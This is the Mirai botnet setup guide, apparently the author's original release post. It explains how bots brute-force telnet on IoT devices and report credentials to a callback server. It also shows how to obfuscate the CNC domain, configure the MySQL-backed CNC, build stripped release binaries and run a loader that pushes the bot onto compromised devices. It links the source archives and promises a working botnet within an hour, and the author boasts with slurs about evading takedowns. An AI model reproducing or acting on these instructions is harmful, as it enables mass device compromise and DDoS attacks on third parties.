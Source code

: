 #Infrastructure Overview
- To establish connection to CNC, bots resolve a domain (resolv.c/resolv.h) and connect to that IP address
- Bots brute telnet using an advanced SYN scanner that is around 80x faster than the one in qbot, and uses almost 20x less resources. When finding bruted result, bot resolves another domain and reports it. This is chained to a separate server to automatically load onto devices as results come in.
- Bruted results are sent by default on port 48101. The utility called scanListen.go in tools is used to receive bruted results (I was getting around 500 bruted results per second at peak). If you build in debug mode, you should see the utitlity scanListen binary appear in debug folder.

Mirai uses a spreading mechanism similar to self-rep, but what I call "real-time-load". Basically, bots brute results, send it to a server listening with scanListen utility, which sends the results to the loader. This loop (brute -> scanListen -> load -> brute) is known as real time loading.

The loader can be configured to use multiple IP address to bypass port exhaustion in linux (there are limited number of ports available, which means that there is not enough variation in tuple to get more than 65k simultaneous outbound connections - in theory, this value lot less). I would have maybe 60k - 70k simultaneous outbound connections (simultaneous loading) spread out across 5 IPs.

#Configuring Bot
Bot has several configuration options that are obfuscated in (table.c/table.h). In ./mirai/bot/table.h you can find most descriptions for configuration options. However, in ./mirai/bot/table.c there are a few options you *need* to change to get working.

- TABLE_CNC_DOMAIN - Domain name of CNC to connect to - DDoS avoidance very fun with mirai, people try to hit my CNC but I update it faster than they can find new IPs, lol. Retards :)
- TABLE_CNC_PORT - Port to connect to, its set to 23 already
- TABLE_SCAN_CB_DOMAIN - When finding bruted results, this domain it is reported to
- TABLE_SCAN_CB_PORT - Port to connect to for bruted results, it is set to 48101 already.

In ./mirai/tools you will find something called enc.c - You must compile this to output things to put in the table.c file

Run this inside mirai directory
```
./build.sh debug telnet
```
You will get some errors related to cross-compilers not being there if you have not configured them. This is ok, won't affect compiling the enc tool

Now, in the ./mirai/debug folder you should see a compiled binary called enc. For example, to get obfuscated string for domain name for bots to connect to, use this:
```
./debug/enc string fuck.the.police.com
```
The output should look like this
```
XOR'ing 20 bytes of data...
\x44\x57\x41\x49\x0C\x56\x4A\x47\x0C\x52\x4D\x4E\x4B\x41\x47\x0C\x41\x4D\x4F\x22
```

To update the TABLE_CNC_DOMAIN value for example, replace  that long hex string with the one provided by enc tool. Also, you see "XOR'ing 20 bytes of data". This value must replace the last argument tas well. So for example, the table.c line originally looks like this

```
add_entry(TABLE_CNC_DOMAIN, "\x41\x4C\x41\x0C\x41\x4A\x43\x4C\x45\x47\x4F\x47\x0C\x41\x4D\x4F\x22", 30); // cnc.changeme.com
```

Now that we know value from enc tool, we update it like this
```
add_entry(TABLE_CNC_DOMAIN, "\x44\x57\x41\x49\x0C\x56\x4A\x47\x0C\x52\x4D\x4E\x4B\x41\x47\x0C\x41\x4D\x4F\x22", 20); // fuck.the.police.com
```

Some values are strings, some are port (uint16 in network order / big endian).

#Configuring the CNC
```
apt-get install mysql-server mysql-client
```
CNC requires database to work. When you install database, go into it and run following commands:
http://pastebin.com/86d0iL9g

This will create database for you. To add your user,
```
INSERT INTO users VALUES (NULL, 'josh-G', 'mypasswordblahah', 0, 0, 0, 0, -1, 1, 30, '');
```

Now, go into file ./mirai/cnc/main.go

Edit these values

```
const DatabaseAddr string   = "127.0.0.1"
const DatabaseUser string   = "root"
const DatabasePass string   = "password"
const DatabaseTable string  = "mirai"
```

To the information for the mysql server you just installed


#Setting Up Cross Compilers
Cross compilers are easy, follow the instructions at this link to set up. You must restart your system or reload .bashrc file for these changes to take effect.

http://pastebin.com/1rRCc3aD

#Building CNC+Bot
The CNC, bot, and related tools:
1) http://santasbigcandycane.cx/mirai.src.zip - ### THESE LINKS WILL NOT LAST FOREVER
![Alt text](http://i.imgur.com/BVc7qJs.png "Optional title")


2) http://santasbigcandycane.cx/loader.src.zip - ### THESE LINKS WILL NOT LAST FOREVER

How to build bot + CNC
In mirai folder, there is build.sh script.

```
./build.sh debug telnet
```
Will output debug binaries of bot that will not daemonize and print out info about if it can connect to CNC, etc, status of floods, etc. Compiles to ./mirai/debug folder

```
./build.sh release telnet
```
Will output production-ready binaries of bot that are extremely stripped, small (about 60K) that should be loaded onto devices. Compiles all binaries in format: "mirai.$ARCH" to ./mirai/release folder


[size=x-large]Building Echo Loader[/size]
Loader reads telnet entries from STDIN in following format: 
[code]ip:port user:pass[/code]
It detects if there is wget or tftp, and tries to download the binary using that. If not, it will echoload a tiny binary (about 1kb) that will suffice as wget.

```
./build.sh
```
Will build the loader, optimized, production use, no fuss. If you have a file in formats used for loading, you can do this
```
cat file.txt | ./loader
```

Remember to ulimit!

##Also:
Just so it's clear, I'm not providing any kind of 1 on 1 help tutorials or shit, too much time. All scripts and everything are included to set up working botnet in under 1 hours. I am willing to help if you have individual questions (how come CNC not connecting to database, I did this this this blah blah), but not questions like "My bot not connect, fix it"


